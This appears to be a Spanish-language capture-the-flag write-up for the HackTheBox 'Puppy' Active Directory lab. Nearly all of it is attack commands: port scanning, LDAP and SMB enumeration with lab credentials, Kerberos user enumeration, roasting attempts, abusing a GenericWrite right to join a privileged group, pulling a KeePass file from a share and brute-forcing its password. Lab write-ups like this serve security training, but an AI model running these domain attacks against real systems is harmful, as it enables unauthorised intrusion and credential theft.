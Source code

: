 levi.james / KingofAkron2025!
## Reconocimiento
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -oG allPorts`

*Puertos*
`53/DNS`
`88/kerberos`
`111/rpcbind`
`389/LDAP`
`445/SMB`
`5985/WinRm`


`netexec ldap $IP 2>/dev/null` 
`LDAP 10.10.11.70 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)`

`iRealm --force $IP PUPPY.HTB DC`
Nos añade la maquina a `/etc/hosts` y nos añade el nombre del dominio y FQDN a `/etc/krb5.conf`

Verificamos las credenciales son validas con [[CRACKMAPEXEC-NETEXEC]]
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!'` si sale en verde es que las credenciales son validas

Buscamos recursos compartidos con [[CRACKMAPEXEC-NETEXEC]]
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

#### Enumeración Usuarios

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`
```     
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

Enumeración de usuarios y verifica que exista en el dominio [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames`

 O también podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
 `nxc ldap $IP -u users.txt -p '' -k`
  El error `KDC_ERR_PREAUTH_FAILED` la contraseña no funciona pero existe el usuario
  El error `KDC_ERR_CLIENT_REVOKED` existe el usuario


### AS-REP ROASTING (Sin creds)
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque. 

### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga serviceprincipalname (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque. 


Recopilar información del LDAP y se guarda en un `.zip` que este le usaremos para subir al blodhound
Subimos el archivo a bloodhound

Añadimos usuario a grupo DEVELOPERS por que tenemos generic write
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos vovemos a acceder al smb y vemos que tenmos acceso a DEV
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de keepass `kdbx` 
`recovery.kdbx`

Nos descargamos el archivo 
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

Lo añadimos a Keepassxc el archivo y nos pide una passwd
como no la tenemos la hacemos fuerza bruta

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`




